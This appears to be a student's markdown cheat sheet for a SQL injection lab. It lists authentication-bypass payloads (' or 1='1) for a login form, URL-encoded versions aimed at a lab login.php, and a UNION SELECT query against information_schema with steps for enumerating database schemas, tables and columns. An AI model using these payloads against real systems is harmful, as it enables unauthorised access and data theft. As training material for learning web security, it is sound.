     https://sqlbolt.com
_________________________________________________________________________________________________________________
## Post method: In the username and password fields use single quote to create or statement to validate true. 
    ' or 1='1
_________________________________________________________________________________________________________________
## Get method: In the Inspector (right click) open the network tab use post method and run it, select the post method below and in the new pane select request tab and switch to raw. Copy that and paste to the URL and add a ? at the beginning.
    http://10.50.33.78/login.php?username='+or+1%3D'1&passwd='+or+1%3D'1
    http://10.50.33.78/login.php?username=%27+or+1%3D%271&passwd=%27+or+1%3D%271
_________________________________________________________________________________________________________________
## Golden Statement: 
UNION SELECT table_schema,table_name,column_name FROM information_schema.columns

-----------------------------------[column],[column],[column]----------------------[database],[table]------------
    
    mysql
    show databases ;
    use information_schema ;
    show tables from information_schema ;
    show columns from columns ;
    
    SELECT table_schema FROM information_schema.columns ;
    SELECT table_name FROM information_schema.columns ;
    SELECT column_name FROM information_schema.columns ;
    
    SELECT table_schema,table_name,column_name FROM information_schema.columns ;
    
    ##Examples:
    SELECT x,x,x FROM session.xxx
    SELECT name,cost,year FROM session.car ;
    SELECT id,name,pass FROM session.user ;    
_________________________________________________________________________________________________________________
## SQL Injection: 
### 1-Identify Vulnerable Field.
    Ford ' or 1='1
    Dodge ' or 1='1
    Honda ' or 1='1
    Audi ' or 1='1

### 2-Modify Goldent Statement to include all information.
#### UNION SELECT table_schema,2,table_name,column_name,5 FROM information_schema.columns #
    Audi ' UNION SELECT 1,2,3,4 #
    Audi ' UNION SELECT 1,2,3,4,5 #
    Audi ' UNION SELECT table_schema,2,table_name,column_name,5 FROM information_schema.columns #









_________________________________________________________________________________________________________________


_________________________________________________________________________________________________________________


_________________________________________________________________________________________________________________


_________________________________________________________________________________________________________________


_________________________________________________________________________________________________________________


_________________________________________________________________________________________________________________


_________________________________________________________________________________________________________________


_________________________________________________________________________________________________________________


_________________________________________________________________________________________________________________


_________________________________________________________________________________________________________________


_________________________________________________________________________________________________________________


_________________________________________________________________________________________________________________


_________________________________________________________________________________________________________________


_________________________________________________________________________________________________________________


_________________________________________________________________________________________________________________


_________________________________________________________________________________________________________________


_________________________________________________________________________________________________________________


_________________________________________________________________________________________________________________


_________________________________________________________________________________________________________________


_________________________________________________________________________________________________________________


_________________________________________________________________________________________________________________


_________________________________________________________________________________________________________________


_________________________________________________________________________________________________________________


_________________________________________________________________________________________________________________


_________________________________________________________________________________________________________________


_________________________________________________________________________________________________________________


_________________________________________________________________________________________________________________


_________________________________________________________________________________________________________________


_________________________________________________________________________________________________________________


_________________________________________________________________________________________________________________


_________________________________________________________________________________________________________________


_________________________________________________________________________________________________________________


_________________________________________________________________________________________________________________


_________________________________________________________________________________________________________________


_________________________________________________________________________________________________________________


_________________________________________________________________________________________________________________


_________________________________________________________________________________________________________________


_________________________________________________________________________________________________________________


_________________________________________________________________________________________________________________


_________________________________________________________________________________________________________________


_________________________________________________________________________________________________________________


_________________________________________________________________________________________________________________


_________________________________________________________________________________________________________________


_________________________________________________________________________________________________________________


_________________________________________________________________________________________________________________


_________________________________________________________________________________________________________________


_________________________________________________________________________________________________________________


_________________________________________________________________________________________________________________


_________________________________________________________________________________________________________________


_________________________________________________________________________________________________________________


_________________________________________________________________________________________________________________


_________________________________________________________________________________________________________________


_________________________________________________________________________________________________________________


_________________________________________________________________________________________________________________


_________________________________________________________________________________________________________________


_________________________________________________________________________________________________________________


_________________________________________________________________________________________________________________


_________________________________________________________________________________________________________________


_________________________________________________________________________________________________________________


_________________________________________________________________________________________________________________


_________________________________________________________________________________________________________________


_________________________________________________________________________________________________________________
